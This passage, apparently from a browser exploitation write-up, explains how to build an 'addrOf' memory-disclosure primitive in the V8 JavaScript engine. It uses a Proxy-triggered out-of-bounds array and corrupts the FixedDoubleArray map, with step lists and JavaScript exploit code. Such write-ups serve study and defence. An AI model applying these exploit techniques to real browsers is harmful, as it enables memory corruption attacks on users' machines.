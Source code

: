 The following figure illustrates the idea for `addrOf`

![addrOfIllustration.jpg](addrOfIllustration.jpg)

To get `addrOf`, we got to :
1. Get the map of FixedDoubleArray along with the preserved bytes (for safety)
2. Save the values that we want to overwrite
3. Change the object to the object that we want the address of
4. Change the map to that of FixedDoubleArray
5. Access the array to read the double value containing the location of the object
6. Restore the values that we saved to guarantee the safety
  
So the first thing to do is to get the indexes of data relative to`oob_Array`.

```js
// Values gotten from the memory in memory dump

const fixedDoubleArray_Map = 5;
const fixedArray_map_to_be_replaced_at_index = 28;
...
...
let p = new Proxy(Object, {
    get: function() {
        a[0] = {};
        oob_Array = [0.1, 0.2, 0.3, 0.4, 0.5];
        float_arr = [0.1, 0.1, 0.1]; // This is the floating array
        obj = {   //
            x: 0.99,
            y: 0.999
        };
        obj_arr_to_corrupt = [obj]; // This object can be set to the target object that we want the address of
        return Object.prototype;
    }
});
```
  
Since our values from `oob_Array` are 8 bytes while the map is only 4 bytes, we will need to preserve the bytes just in case as shown in the following diagram.

![corruptValueIllustration.jpg](corruptValueIllustration.jpg)
```js
// Since our values from `oob_Array` are 8 bytes while the map is only 4 bytes, we will need to preserve the bytes just in case.
fixedDoubleArrayMap = new Int64.fromDouble(oob_Array[fixedDoubleArray_Map]).toString().slice(10, 18);
// The fixedArray map that we want to replace at is the upper 32 bits so we need to preserve the lower 32 bits just in case
bytesToPreserveJustInCase = new Int64.fromDouble(oob_Array[fixedArray_map_to_be_replaced_at_index]).toString().slice(10, 18);

corruptValue = fixedDoubleArrayMap + bytesToPreserveJustInCase;
corruptValue = new Int64(corruptValue);
```
